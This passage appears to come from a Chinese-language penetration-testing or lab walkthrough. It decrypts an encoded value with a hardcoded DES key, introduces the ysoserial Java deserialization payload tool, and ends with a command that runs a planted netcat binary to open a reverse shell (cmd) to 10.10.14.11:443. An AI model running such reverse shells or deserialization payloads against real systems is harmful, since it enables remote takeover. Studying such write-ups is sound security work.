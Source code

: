 ![截图](171137fbe9dcc733c52a887b7cef720a.png)

目前已知加密方式、加密位置以及密钥，接下来就可以解密这串值

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode
from Crypto.Cipher import DES  # 导入 Crypto.Cipher 模块中的 DES 加密算法

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)
vs_bs64decode = b64decode(vs_urldecode)
enc = vs_bs64decode[:-20]   # 获取数据的密文（除了最后 20 个字节之外的部分）
d = DES.new(b'JsF9876-', DES.MODE_ECB)  # 使用 DES 算法和 ECB 模式创建一个 DES 对象，用于解密
print(d.decrypt(enc))
```

![截图](02f81d0dbc416715bc91d057d980f867.png)

经过解密后出现字符串说明解密确实是正确的.

## ysoserial

> ysoserial是一个用于生成java反序列化有效负载的项目。最早在2015年Marshalling Pickles: how deserializing objects will destroy your会议上提出的一个工具，该工具包含各种java反序列化利用链，可直接生成序列化数据文件，也可通过交互式开启各种服务。总之，提到java反序列化一定会有ysoserial工具的出现，通过该工具直接快速生成java反序列化漏洞的有效负载.
> 
> 下载链接：https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 